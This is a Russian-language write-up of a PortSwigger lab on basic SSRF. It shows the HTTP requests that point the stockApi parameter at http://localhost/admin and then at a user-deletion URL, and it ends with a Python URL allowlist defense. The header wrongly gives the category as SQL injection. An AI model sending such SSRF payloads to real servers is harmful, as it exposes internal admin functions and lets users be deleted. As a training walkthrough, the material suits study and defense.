




## Lab: Basic SSRF against the local server
**Платформа:** PortSwigger Web Security Academy
**Категория:** SQL Injection — Examining the Database
**Сложность:** Apprentice
**Дата:** 2025-07-17

---

## TL;DR
Функция проверки наличия товара принимает произвольный URL в параметре
`stockApi` и выполняет запрос на стороне сервера без валидации.
Подменив URL на `http://localhost/admin` удалось получить доступ
к закрытой админ-панели и удалить пользователя `carlos`.

---

## Описание уязвимости

SSRF (Server-Side Request Forgery) — атака при которой сервер выполняет
HTTP-запрос по URL указанному атакующим. Это опасно потому что сервер
находится внутри корпоративной сети и имеет доступ к ресурсам
недоступным снаружи — localhost, внутренние API, служебные панели.

```
Обычный запрос:
Атакующий → запрос → Веб-сервер

SSRF:
Атакующий → указывает URL → Веб-сервер → делает запрос за атакующего
                                         → localhost/admin
                                         → внутренние сервисы
```

Внутренние ресурсы часто не требуют авторизации — разработчики
считают что снаружи к ним никто не доберётся. SSRF ломает
это допущение.

---

## Разведка

### Шаг 1 — Проверка прямого доступа к админке

Попытка открыть `/admin` напрямую возвращает `Admin interface only available if logged in as an administrator, or if requested from loopback`.
Панель администратора доступна только с localhost.



### Шаг 2 — Анализ функции проверки наличия товара

Открыла страницу любого товара и нажала **"Check stock"**.
Перехватила запрос в Burp Suite и отправила в Repeater:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http%3A%2F%2Fstock.weliketoshop.net%2Fproduct%2F123
```

URL decoded значение параметра:
```
stockApi=http://stock.weliketoshop.net/product/123
```

Сервер принимает произвольный URL и выполняет запрос на его стороне.
Валидации URL нет — это точка входа для SSRF.



---

## Эксплуатация

### Шаг 3 — Получение доступа к админ-панели через localhost

Заменила значение `stockApi` на внутренний адрес админ-панели:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin
```

Сервер выполнил запрос к самому себе. Поскольку запрос пришёл
с localhost — авторизация не потребовалась. В ответе вернулся
HTML страницы администратора.



### Шаг 4 — Поиск URL для удаления пользователя

В HTML ответа нашла ссылку на удаление пользователя `carlos`:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

### Шаг 5 — Удаление пользователя carlos

Подставила найденный URL в параметр `stockApi`:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin/delete?username=carlos
```

Сервер выполнил запрос от своего имени — пользователь удалён.



---

## Итог

Отсутствие валидации URL в параметре `stockApi` позволило
заставить сервер обращаться к внутренним ресурсам от своего имени.
Админ-панель, защищённая только проверкой IP (localhost),
оказалась полностью доступна через SSRF.

---

## Защита

```python
# Валидация URL перед выполнением запроса
from urllib.parse import urlparse
import ipaddress

ALLOWED_HOSTS = ['stock.weliketoshop.net']

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)

    # Запрещаем внутренние адреса
    try:
        ip = ipaddress.ip_address(parsed.hostname)
        if ip.is_private or ip.is_loopback:
            return False
    except ValueError:
        pass

    # Разрешаем только доверенные хосты
    if parsed.hostname not in ALLOWED_HOSTS:
        return False

    # Разрешаем только http/https
    if parsed.scheme not in ('http', 'https'):
        return False

    return True

# Использование:
if not is_safe_url(stock_api_url):
    abort(400, "Invalid URL")
```

Дополнительные меры:
- Выполнять запросы к внешним сервисам через изолированный
  прокси-сервер без доступа к внутренней сети
- Не доверять авторизации только на основе IP-адреса (localhost)
- Использовать allowlist доменов вместо blocklist IP-адресов —
  blocklist легко обойти через DNS rebinding или нестандартные
  представления IP (`127.0.0.1`, `0x7f000001`, `2130706433`)